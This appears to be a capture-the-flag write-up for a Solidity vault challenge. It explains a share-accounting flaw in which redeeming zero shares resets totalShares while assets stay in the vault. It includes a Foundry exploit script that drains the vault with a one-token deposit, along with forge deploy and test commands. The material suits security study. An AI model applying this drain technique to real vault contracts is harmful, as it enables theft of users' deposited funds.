 This contract implements a vault that allows users to deposit and withdraw ERC20 tokens (GREY) in exchange for shares, which represent their ownership in the vault. The vault uses the `Rational` type for precise share accounting. Users can deposit tokens to receive shares, withdraw tokens by burning shares, and convert between assets and shares using rational math. However, there is a critical vulnerability: if all shares are redeemed and totalShares becomes zero while the vault still holds assets, the next depositor can become the sole owner of all vault assets for a minimal deposit. This share accounting reset bug allows an attacker to drain the vault.

---

## Exploitation

The exploit takes advantage of a critical flaw in the vault’s share accounting logic and the arithmetic operation, `sub()` logic. By calling `redeem()` with `0` as the input value, we can reset `totalShares` to zero while the vault still holds all assets. Then, depositing just 1 GREY to let us to be the sole shareholder. When we redeem this share, we can receive the entire vault balance, draining all funds. This works because the vault does not properly handle the case where shares are reset but assets remain.

```solidity
function run() external returns (bool) {
    vm.startBroadcast();

    setup.claim();
    // // Approve the vault to spend your GREY
    grey.approve(address(vault), 1000e18);

    // Redeem 0 shares to make the totalShares to become 0
    vault.redeem(0);

    // Deposit 1 GREY to make the totalShares to become 1, and become the only shareholder
    vault.deposit(1);

    // Redeem 1 share to get all the GREY in the vault
    vault.redeem(1);
        
    console2.log("Our GREY balance:", grey.balanceOf(vm.envAddress("WALLET")));
    vm.stopBroadcast();
    return setup.isSolved();
}
```

See the full exploitation script [here](script/Exploit.s.sol). If you are interested with the test script as well, see the test script [here](test/Exploit.t.sol).

### Command to Deploy the Script and Test

For `Exploit.s.sol`:

```bash
forge script script/Exploit.s.sol:Exploit --broadcast --rpc-url $RPC_URL --private-key $PK
```

For `Exploit.t.sol`:

```bash
forge test --match-test testExploit
```

Please kindly save the variables in the `.env` file. However, and please don't save your private key in plaint text in production!

---